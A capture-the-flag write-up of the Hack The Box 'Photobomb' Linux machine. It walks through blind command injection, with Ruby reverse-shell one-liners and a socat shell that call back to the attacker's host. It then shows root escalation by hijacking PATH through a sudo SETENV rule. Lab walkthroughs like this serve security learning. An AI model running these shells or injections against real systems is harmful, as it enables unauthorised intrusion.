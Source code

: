 # Hackthebox - Photobomb - Linux

![Photobomb](../.res/htb-photobomb.png)  

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.11.182                   
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-24 09:06 EST
Nmap scan report for 10.10.11.182
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/24%OT=22%CT=1%CU=33794%PV=Y%DS=2%DC=I%G=Y%TM=63A707
OS:99%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.92 seconds
```

- We need to add a line to our `/etc/hosts/` file like this `10.10.11.182	photobomb.htb`

## Port 80

- When browsing to http://photobomb.htb/ we end up here  
![Landing page](../.res/2022-12-24-09-12-28.png)  
- Clicking on the link will open a prompt to login
- Looking at the code we find this

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

- Great we have credentials `pH0t0:b0Mb!` using these we are able to login

![after login](../.res/2022-12-24-09-25-17.png)  

### Gobuster

- Nothing here. Most endpoints give this 404 page.

![Sinatra](../.res/2022-12-24-09-28-47.png)  

- Here is the code of the page

```html
</h2>
  <img src='http://127.0.0.1:4567/__sinatra__/404.png'>
  <div id="c">
    Try this:
    <pre>get &#x27;&#x2F;printers&#x27; do
  &quot;Hello World&quot;
end
</pre>
  </div>
</body>
</html>
```

- We can note here the presence of [Sinatra](https://sinatrarb.com/), and keep it aside for later.
- Let's play a little with the download feature
- Photobomb kinda reminds me about zipbomb (the attack) but we do not have an upload form at the moment.
- It seems like we should focus on injection or path traversal vulnerabilities.
- Let's use burp intruder for some fuzzing. Looking at the results, we get some interesting backtrace.  
- See the results here
![intruder](../.res/2022-12-24-10-51-49.png)
- See the backtrace we get
![backtrace](../.res/2022-12-24-10-53-32.png)  
- Trying out a wget in the filtype parameter in a server on my kali does something. Doing a whoami however won't work because we do not get the output as it is blind command injection.
- We start a local webserver `python3 -m http.server 80`
- We launch a wget through burp repeater. It has to be url encoded, we can do it easily with burp inspector or ctr+U
![wget in burp](../.res/2022-12-24-12-18-44.png)  
- We can see that it works
![request from target](../.res/2022-12-24-12-20-30.png)  
- Using this we could launch a reverse shell
- Our [usual bash commands](https://csbygb.gitbook.io/pentips/linux/useful#launch-shells-from-a-terminal) are not successful.
- This one in ruby looses the connection right away `ruby -rsocket -e'f=TCPSocket.open("10.10.14.2",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ruby) has another option for us `ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.14.2","4444");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'`  
This one does not die on us and we get a shell!  
![shell](../.res/2022-12-24-14-11-39.png)  
- We are the user wizard. Let's grab the user flag

## Privilege escalation

- Let's get a better shell with a socat binary
- `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat` from your kali
- Then we put on our python web server `python3 -m http.server 80`
- We also set up a listener with socat

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

Then we go to a writable directory `wget http://10.10.14.2/socat`

- `chmod +x socat` 
- ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.2:4445`
- We get a more decent shell this way
![socat](../.res/2022-12-24-14-48-08.png)

### Linepeas

- We take linpeas and launch it
- Interesting input to investigate further

```bash
*/5 * * * * sudo /opt/cleanup.sh
```

- There is an interesting cronjob.
- Here is the content of `/opt/cleanup.sh`

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

- Also we can set the env for /opt/cleanup.sh and run it without the root password. See `sudo -l` result here

```bash
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

- The cleanup script uses the find command. We could make our own find command and change the path.

> INSIDER TIP: Don't do like me do not forget to chmod +x your malicious find script... -_-'

- So here is the process
  - Create your own malicious find command. Here is mine (it will lauch root shell but you could also make a reverse shell for example)
  
  ```bash
  #!/bin/bash
  bash
  ```

  - Get it in your target (you can also write your script from the target with echo) `wget http://10.10.14.2/find`
  - Make your script executable `chmod +x find`
  - Set the path `sudo PATH=/home/wizard/photobomb:$PATH /opt/cleanup.sh` this way the find command will be fetch where you want here in the photobomb folder
  - You should be root in a very few seconds

We can grab the root flag

